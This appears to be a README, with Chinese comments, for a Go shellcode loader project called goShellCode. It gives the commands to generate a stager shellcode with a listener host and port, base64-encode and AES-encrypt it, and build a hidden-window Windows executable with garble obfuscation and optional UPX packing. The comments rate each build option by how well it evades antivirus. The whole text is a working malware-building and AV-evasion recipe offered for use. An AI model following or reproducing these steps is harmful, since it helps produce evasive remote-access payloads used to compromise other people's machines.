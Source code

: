 # goShellCode

//生成shellcode

generate stager --lhost HOST --lport 8443 --arch amd64 --format raw --save ./raw_shellcode

base64 -w 0 -i raw_shellcode > stager.bs64

go run aes.go

//免杀效果拉跨

garble -literals -tiny -seed=random build -ldflags="-w -s -H windowsgui" ./main.go

//免杀效果好 

go build -ldflags="-w -s -H windowsgui" ./main.go

//压缩,upx压缩之后容易被查杀

upx.exe -9 -q -o zip.exe main.exe


## build.bat

拷贝stager.bs64中的内容到aes/base64Code.txt

然后执行bat，生成main.exe，免杀效果还行
